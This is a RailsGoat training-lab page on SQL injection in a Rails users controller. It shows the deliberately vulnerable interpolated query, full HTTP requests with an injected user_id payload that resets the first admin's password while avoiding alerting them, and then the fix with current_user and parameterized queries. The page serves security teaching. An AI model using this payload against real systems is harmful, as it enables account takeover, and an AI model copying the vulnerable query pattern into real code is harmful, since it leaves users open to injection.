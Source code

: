 # Description

Injection flaws, such as SQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing unauthorized data.

# Bug

This example of SQL Injection also happens to be a form of Insecure Direct Object Reference since it uses user-supplied input to determine the user's profile to update. However, we will discuss the SQL query being used and why it is vulnerable.

Within app/controllers/users_controller.rb

```ruby
  def update
    message = false
    # VULNERABLE CODE, ON THE NEXT LINE (WHERE STATEMENT)
    user = User.where("user_id = '#{params[:user][:user_id]}'").first
    if user
      user.skip_user_id_assign = true
      user.skip_hash_password = true
      user.update_attributes(user_params_without_password)
      if !(params[:user][:password].empty?) && (params[:user][:password] == params[:user][:password_confirmation])
        user.skip_hash_password = false
        user.password = params[:user][:password]
      end
      message = true if user.save!
      respond_to do |format|
        format.html { redirect_to user_account_settings_path(:user_id => current_user.user_id) }
        format.json { render :json => {:msg => message ? "success" : "false "} }
      end
    else
      flash[:error] = "Could not update user!"
      redirect_to user_account_settings_path(:user_id => current_user.user_id)
    end
  end
```

#Solution

### SQL Injection - ATTACK

You will need to use an intercepting proxy or otherwise modify the request prior to it being received by the application. Browse to account_settings (top right, drop-down). Once at the account settings page, type in passwords, and click submit. Now modify the request from:

    POST /users/5.json HTTP/1.1
    Host: railsgoat.dev
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:19.0) Gecko/20100101 Firefox/19.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Referer: http://railsgoat.dev/users/5/account_settings
    Content-Length: 294
    Cookie: _railsgoat_session=[redacted]
    Connection: keep-alive
    Pragma: no-cache
    Cache-Control: no-cache
    
    utf8=✓&_method=put&authenticity_token=GXhLKKhfBXdFx5i6iqHEd5E32Kebn1+G35eA87RW1tU=&user[user_id]=5&user[email]=ken@metacorp.com&user[first_name]=Ken&user[last_name]=Johnson&user[password]=testtest&user[password_confirmation]=testtest

Now we will inject some SQL Query syntax that will return the first result of a query that looks for users that have an admin attribute that is true. So essentially, instead of looking up the user whose data we will change by our user ID, we tell the database to return the first admin and update their data. In this instance, we are changing admin@metacorp.com's password to testtest. We can later login as that user. Granted, we could just change the user_id to 1 and do the same thing, and there are other ways to exploit this weakness but this is a clear-cut example of SQL Injection. **It is important to note that we have omitted the email, first, and last name parameters as a duplicate email address will cause errors. Additionally, we do not wish to change the admin's first and last name as this would alert the admin to the "hack"**.

    POST /users/5.json HTTP/1.1
    Host: railsgoat.dev
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:19.0) Gecko/20100101 Firefox/19.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Referer: http://railsgoat.dev/users/5/account_settings
    Content-Length: 208
    Cookie: _railsgoat_session=[redacted]
    Connection: keep-alive
    Pragma: no-cache
    Cache-Control: no-cache

    utf8=✓&_method=put&authenticity_token=GXhLKKhfBXdFx5i6iqHEd5E32Kebn1+G35eA87RW1tU=&user[user_id]=5') OR admin = 't' --'")&user[password]=testtest1&user[password_confirmation]=testtest1

### SQL Injection - SOLUTION

In this instance, the more secure route would be to reference the current_user object versus pulling from the database manually, using POST parameters provided by the user.

```ruby
  def update
    message = false
    user = current_user
    if user
      user.skip_user_id_assign = true
      user.skip_hash_password = true
      user.update_attributes(user_params_without_password)
      if !(params[:user][:password].empty?) && (params[:user][:password] == params[:user][:password_confirmation])
        user.skip_hash_password = false
        user.password = params[:user][:password]
      end
      message = true if user.save!
      respond_to do |format|
        format.html { redirect_to user_account_settings_path(:user_id => current_user.user_id) }
        format.json { render :json => {:msg => message ? "success" : "false "} }
      end
    else
      flash[:error] = "Could not update user!"
      redirect_to user_account_settings_path(:user_id => current_user.user_id)
    end
  end
```

...However, since we are discussing fixing vulnerable SQL queries, let's discuss parameterized queries. Parameterized queries separate the SQL Query from the dynamic and often untrusted data. You could replace the string interpolated value with the following query and effectively separate the query from untrusted data:

```ruby
user = User.find(:first, :conditions => ["user_id = ?", params[:user][:user_id]])
```

#Hint

I wonder who else's account needs updating?